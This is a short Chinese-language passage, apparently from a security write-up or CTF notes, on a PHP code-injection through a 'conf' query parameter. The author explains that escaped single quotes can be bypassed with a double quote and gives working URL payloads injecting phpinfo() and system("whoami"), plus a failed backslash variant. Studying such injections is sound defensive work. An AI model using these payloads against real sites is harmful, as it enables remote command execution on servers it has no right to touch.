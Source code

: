 接下来就拼接字符串，代码注入，由于会转义 单引号 `'` 变为 `\'` ，我们利用 双引号闭合，但是会把（原本 key 里）我们的所有代码转成大写，目前 在 windows 上测试以下两个都是行的

```
?conf[");phpinfo();%23]=s
```

```
?conf[");system("whoami");%23]=ss
```

<img src=".\图片\Snipaste_2023-08-09_14-40-07.png" alt="Snipaste_2023-08-09_14-40-07" style="zoom:80%;" />

好像 对于 如下 把 `\` 给去空了

```
?conf[ss]=%5C');phpinfo()%23
```

得到如下，仍然不能闭合

<img src=".\图片\Snipaste_2023-08-09_14-44-03.png" alt="Snipaste_2023-08-09_14-44-03" style="zoom:80%;" />
